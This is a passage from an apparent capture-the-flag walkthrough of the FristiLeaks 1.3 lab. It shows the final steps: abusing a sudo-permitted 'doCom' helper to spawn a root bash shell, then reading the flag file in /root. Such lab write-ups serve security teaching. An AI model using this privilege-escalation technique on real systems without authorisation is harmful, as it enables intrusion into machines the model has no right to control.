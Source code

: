 ![writeup.privesc.steps.6.2](/static/files/posts_vulnhub_fristileaks1dot3/screenshot07g.png.webp)  

7\. Using examples from `.bash_history`, we run the setuid file to execute `/bin/bash` and gain elevated privileges:  
```
sudo -u fristi ./doCom "/bin/bash"
```

![writeup.privesc.steps.7.1](/static/files/posts_vulnhub_fristileaks1dot3/screenshot08.png.webp)  

8\. We then explore `root`'s home directory and find the flag within `/root/fristileaks_secrets.txt` file:  
```
cd /root
cat fristileaks_secrets
```
